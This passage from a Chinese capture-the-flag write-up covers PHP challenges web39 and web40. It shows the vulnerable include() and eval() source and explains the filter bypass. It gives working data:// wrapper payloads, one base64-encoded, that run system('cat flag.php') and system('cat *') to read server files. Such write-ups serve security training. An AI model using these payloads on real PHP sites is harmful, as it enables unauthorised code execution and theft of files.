 > 
Payload


```
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs=

```

## web39

> 
源码


```
&lt;?php

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
} 

```

> 
data://text/plain, 这样就相当于执行了php语句`.php`因为前面的php语句已经闭合了，所以后面的`.php`会被当成html页面直接显示在页面上，起不到什么作用


> 
Payload


```
?c=data://text/plain,&lt;?php system('cat *');?&gt;

```

## web40

> 
源码


```
&lt;?php

if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&amp;|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\&lt;|\.|\&gt;|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}

```
